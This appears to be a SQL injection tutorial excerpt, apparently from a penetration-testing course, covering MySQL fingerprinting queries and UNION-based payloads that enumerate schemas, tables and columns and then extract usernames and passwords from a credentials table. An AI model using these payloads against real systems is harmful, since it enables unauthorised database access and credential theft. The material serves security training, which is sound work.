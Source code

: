 As an initial guess, if the webserver we see in HTTP responses is `Apache` or `Nginx`, it is a good guess that the webserver is running on Linux, so the DBMS is likely `MySQL`. The same also applies to Microsoft DBMS if the webserver is `IIS`, so it is likely to be `MSSQL`. However, this is a far-fetched guess, as many other databases can be used on either operating system or web server. So, there are different queries we can test to fingerprint the type of database we are dealing with.

#### MySQL
|Payload|When to Use|Expected Output|Wrong Output|
|---|---|---|---|
|`SELECT @@version`|When we have full query output|MySQL Version 'i.e. `10.3.22-MariaDB-1ubuntu1`'|In MSSQL it returns MSSQL version. Error with other DBMS.|
|`SELECT POW(1,1)`|When we only have numeric output|`1`|Error with other DBMS|
|`SELECT SLEEP(5)`|Blind/No Output|Delays page response for 5 seconds and returns `0`.|Will not delay response with other DBMS|
```sql
SELECT * FROM my_database.users;
```
## SCHEMATA
```shell-session
mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;
```
```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```
```sql
cn' UNION select 1,database(),2,3-- -
```
## TABLES
```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```
Note how we replaced the numbers '2' and '3' with 'TABLE_NAME' and 'TABLE_SCHEMA', to get the output of both columns in the same query.

Note: we added a (where table_schema='dev') condition to only return tables from the 'dev' database, otherwise we would get all tables in all databases, which can be many.

## COLUMNS
```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

## Data
```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```
Remember: don't forget to use the dot operator to refer to the 'credentials' in the 'dev' database, as we are running in the 'ilfreight' database, as previously discussed.